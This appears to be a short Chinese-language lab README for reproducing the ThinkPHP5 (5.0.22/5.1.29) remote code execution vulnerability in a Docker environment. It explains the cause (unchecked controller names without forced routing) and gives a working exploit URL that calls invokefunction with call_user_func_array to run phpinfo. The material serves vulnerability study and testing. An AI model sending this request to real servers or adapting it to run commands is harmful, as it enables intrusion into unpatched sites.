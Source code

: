 # ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

参考链接：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## 漏洞环境

运行ThinkPHP 5.0.20版本：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到ThinkPHP默认启动页面。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`，即可执行phpinfo：

![](1.png)